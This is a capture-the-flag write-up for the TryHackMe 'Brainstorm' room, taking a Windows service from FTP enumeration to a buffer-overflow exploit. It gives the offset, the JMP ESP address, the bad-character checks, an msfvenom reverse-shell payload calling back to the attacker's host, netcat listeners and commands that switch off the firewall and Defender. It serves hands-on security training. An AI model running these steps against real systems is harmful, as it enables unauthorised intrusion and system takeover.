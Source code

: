 # TryHackMe - Brainstorm

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker:
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target:
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#target-enumeration)
1. [Binary exploration](#binary-exploration)
1. [Buffer overflow exploit](#buffer-overflow-exploit)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --script, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```
![mget](imgs/mget.png?raw=true)


These files seemed like they were key to this challenge and I decided to test them in a Windows environment.

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```
![tasklist](imgs/tasklist.png?raw=true)

```
netstat -ano | findstr 524
```
![netstat](imgs/netstat.png?raw=true)

Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```
![ncvm](imgs/ncvm.png?raw=true)

* Target
```
nc -nv 10.10.144.220 9999
```
![nctarget](imgs/nctarget.png?raw=true)


They are probably the same! Now it was time to test for some buffer overflow vulnerabilities.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:

![debuggereip](imgs/debuggereip.png?raw=true)

Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at approximately 4096 bytes (1000h):

![debuggeresp](imgs/debuggeresp.png?raw=true)

Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset.

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```
![regs](imgs/regs.png?raw=true)

The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```
![mona](imgs/mona.png?raw=true)

I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashes memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=lBBBBBBBB --after=badchar --exclude=00 --nops=2 -v
```
![badchars](imgs/badchars.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```
![monabadchars](imgs/monabadchars.png?raw=true)


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --after=shellcode --shellcode=reverse280 --nops=10 -v
```
![vmshell](imgs/vmshell.png?raw=true)


Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m write --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --after=shellcode --shellcode=reverse980 --nops=10 -v
```
![targetshell](imgs/targetshell.png?raw=true)

Bingo! Got a privileged user shell (user 'nt authority\system')!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

---

*Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this later.*


